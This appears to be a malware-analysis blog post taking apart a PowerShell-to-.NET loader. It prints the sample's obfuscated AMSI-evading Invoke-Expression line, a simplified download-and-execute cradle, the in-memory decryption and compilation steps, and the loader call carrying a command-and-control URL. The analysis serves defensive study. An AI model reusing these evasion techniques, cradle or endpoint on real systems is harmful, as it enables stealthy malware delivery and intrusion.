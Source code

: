 Line 9 is intentionally confusing, so let's break it down.
```PS
SI Variable:DK (.$ExecutionContext.(($ExecutionContext|GM)[6].Name).GetCommand($ExecutionContext.(($ExecutionContext|GM)[6].Name).(($ExecutionContext.(($ExecutionContext|GM)[6].Name)|GM|Where{(GV _ -ValueO).Name-clike'*Com*e'}).Name).Invoke('*w-*ct',1,1),[Management.Automation.CommandTypes]::Cmdlet)(LS Variable:P).Value);
```
Taking each part piece by piece starting with `($ExecutionContext|GM)[6].Name`, I drop this into a new PowerShell session and see it is equivalent to `InvokeCommand`. Performing this translation and substitution throughout, the script can be simplified. 
{{< figure src="images/batch_cleaned.png" alt="batch_cleaned" position="center" >}}
Line 11 uses method overloading to perform Invoke-Expression while trying to avoid any strings that may flag AMSI or AV. 

Really, the script could be boiled down to just:
```PS
Invoke-Expression(New-Object Net.WebClient).DownloadString.Invoke(C:\ProgramData\Microsoft\LogConverter\CG6oDkyFHl3R.t)
```
Note: Apparently if using this overload technique, PowerShell will attempt to execute whatever file is passed to Invoke() as if it were PowerShell, no matter the file extension. I am not a PS expert, so not sure why that is.

Execution now passes on the to the `.t` file, which contains more PowerShell.
### .T File
As with the previous batch scripts, the two `.t` files from this sample are very similar to each other, with a few differences I'll discuss momentarily.

It starts out by defining a byte key and a very long encrypted standard string. 
{{< figure src="images/t_file.png" alt="t_file" position="center" >}}
 In line 4, the encrypted string is converted to a [secure string](https://learn.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-7.0) using the key variable. The secure string is then copied to an unmanaged binary string, which is then copied to a managed string.  
 
 Once the string is copied into managed memory, it can be echoed out to view the contents - looking at lines 8 and 9, I know it will be C# source code.   
 
 Line 8 defines a .NET class in the PowerShell session using the contents of the `$managed_str`, while line 9 calls a specific method from the class, passing in some arguments. 
 
I previously mentioned some differences between the two `.t` files - the encrypted standard string, the key, and the arguments are the only variations, the rest of the functionality is the same.

Now execution moves to stage two, and since I've got the C# source code, I can load it into Visual Studio and analyze it further.
## .NET Loader / Beacon
The source code originally had all the class, method, and variable names set to random strings, so I first went through each method and renamed everything appropriately.

I also made some small changes so I could compile the code and create a binary which I could step through in a debugger. You can view my cleaned version of the source code [here](https://pastebin.com/gBFa7MPc).

Since the source code is de-obfuscated and simple, I'll just do a brief analysis of it. 
### Loader Functionality
As noted earlier, the method called by the `.t` file is:  
`rYqzrd("https://snow.cdn-b1d8e9.workers.dev", "OYEXidNnoFTXfoKbDqoEaOuj", "75000")`  
 